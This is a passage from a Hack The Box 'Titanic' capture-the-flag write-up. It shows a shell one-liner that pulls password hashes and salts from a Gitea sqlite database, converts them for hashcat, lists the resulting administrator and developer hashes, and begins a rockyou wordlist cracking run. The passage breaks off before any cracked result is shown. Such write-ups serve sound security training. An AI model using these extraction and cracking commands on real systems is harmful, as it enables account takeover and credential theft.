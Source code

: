 ![](images/2025-02-15_20-50_sqlite_users.png)

### Cracking the Hash

We needed to `prepare` the `hashes` in order to crack them and our teammate `obskur3` came up with an amazing post of `0xdf` about how to format `Gitea hases` properly to used them with `hashcat`.

- [https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Titanic/files]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

After we received the correct `format` for the `hashes` we were able to `crack` the password for `developer`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Titanic/files]
└─$ hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
```